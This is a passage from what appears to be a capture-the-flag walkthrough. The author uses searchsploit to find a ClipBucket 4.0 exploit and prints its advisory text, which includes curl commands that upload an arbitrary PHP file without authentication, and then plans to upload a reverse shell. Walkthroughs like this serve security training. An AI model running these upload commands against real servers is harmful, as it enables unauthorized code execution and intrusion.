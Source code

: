 - Oof! Too many `php` files to check! And none of them were promising.
- **P.S**: I spent almost an hour looking through those php files :-(
- Once a wise man told me to check for **service exploits**. We'll check for clipbucket exploits in **searchsploit**:

```bash
$ searchsploit clipbucket 4.0
---------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                      |  Path
---------------------------------------------------------------------------------------------------- ---------------------------------
ClipBucket < 4.0.0 - Release 4902 - Command Injection / File Upload / SQL Injection                 | php/webapps/44250.txt
ClipBucket < 4.0.0 - Release 4902 - Command Injection / File Upload / SQL Injection                 | php/webapps/44250.txt
---------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

$ searchsploit -m php/webapps/44250.txt
  Exploit: ClipBucket < 4.0.0 - Release 4902 - Command Injection / File Upload / SQL Injection
      URL: https://www.exploit-db.com/exploits/44250
     Path: /usr/share/exploitdb/exploits/php/webapps/44250.txt
File Type: ASCII text, with CRLF line terminators

$ cat 44250.txt
.
.
2. Unauthenticated Arbitrary File Upload
A malicious file can be uploaded into the webserver by an unauthenticated
attacker. It is possible for an attacker to upload a script to issue operating
system commands. This same vulnerability can also be exploited by an
authenticated attacker with normal user privileges.
.
.
2. Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the webserver with no
authentication required.

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/photo_uploader.php"
.
.
```

- Mmmmm, **Unauthenticated Arbitrary file Upload**. That's exactly what we want to upload reverse shell code!

---